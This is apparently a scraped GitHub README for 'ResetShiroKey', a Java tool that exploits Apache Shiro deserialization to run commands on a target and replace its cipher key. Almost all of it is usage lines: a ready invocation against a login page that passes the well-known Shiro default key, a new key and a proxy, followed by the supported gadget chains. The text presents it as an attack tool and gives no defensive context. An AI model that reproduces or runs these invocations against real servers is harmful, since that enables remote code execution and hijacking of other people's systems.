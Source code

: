 # ResetShiroKey
shiro命令执行动态修改key
jdk11环境
Usage: java -jar resetShiroKey.jar gadget target_url old_key new_key [proxy]
Usage: java -jar resetShiroKey.jar cc2 http://192.168.38.38/login.jsp kPH+bIxk5D2deZiIxcaaaA== 4A3VhmFLUs0KTA3Kprsdag== http:127.0.0.1:8080
Usage: Gadget have cc2 cc3 cck1 cck2 cb18
